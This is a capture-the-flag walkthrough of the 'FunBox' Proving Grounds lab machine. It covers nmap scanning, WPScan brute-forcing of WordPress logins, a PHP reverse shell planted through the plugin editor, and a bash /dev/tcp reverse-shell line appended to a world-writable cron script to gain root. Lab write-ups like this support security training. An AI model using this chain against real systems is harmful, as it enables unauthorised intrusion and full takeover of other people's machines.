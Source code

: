 ```yaml
---
layout: default
title: FunBox
parent: Proving Grounds Play
nav_order: 14
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.218.77
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-15 21:49 EST
Nmap scan report for 192.168.218.77
Host is up (0.059s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION                                                                         21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d2:f6:53:1b:5a:49:7d:74:8d:44:f5:46:e3:93:29:d3 (RSA)
|   256 a6:83:6f:1b:9c:da:b4:41:8c:29:f4:ef:33:4b:20:e0 (ECDSA)
|_  256 a6:5b:80:03:50:19:91:66:b6:c3:98:b8:c4:4f:5c:bd (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://funbox.fritz.box/
| http-robots.txt: 1 disallowed entry
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

# Enumeration

---

## 80 | HTTP

Wordpress site at _funbox.fritz.box_

### WPscan

```bash
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Run WPScan brute force attack

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ wpscan --url http://funbox.fritz.box --disable-tls-checks -U users.txt -P /usr/share/wordlists/rocky
ou.txt

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345
[SUCCESS] - admin / iubire
Trying admin / violet Time: 00:00:18 <                          > (670 / 28689453)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

Authenticate to Wordpress as with _admin:iubire_

# Exploitation

---

Attempting Hello Dolly plugin edit exploit.

![dolly1](../../../assets/images/ctfs/proving_grounds/funbox/dolly1.png)

Add the PHP reverse shell script and edit.

![dolly2](../../../assets/images/ctfs/proving_grounds/funbox/dolly2.png)

Activate the Hello Dolly plugin and get a reverse shell.

![dolly3](../../../assets/images/ctfs/proving_grounds/funbox/dolly3.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 49092
Linux funbox 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:14:29 up 28 min,  0 users,  load average: 0.00, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate wp-config.php File

```bash
www-data@funbox:/var/www/html$ cat wp-config.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'wordpress');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

Only shows the users we already have access to.

Switch to Joe.

Enumerate user _funny_ home directory and locate a _.backup.sh_ that is creating a backup of _/var/www/html_ every 1 minute.

```bash
joe@funbox:/home/funny$ ls -la
ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Nov 16 03:36 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html

```

_.backup.sh_ is world writeable so we can edit this script to give us a reverse shell as _root_ user.

```bash
joe@funbox:/home/funny$ echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1
```

After a couple minutes we get a reverse shell as _root_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 41312
bash: cannot set terminal process group (4896): Inappropriate ioctl for device
bash: no job control in this shell
root@funbox:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# whoami
whoami
root
root@funbox:~# cat /root/proof.txt
cat /root/proof.txt
3d96************************
```

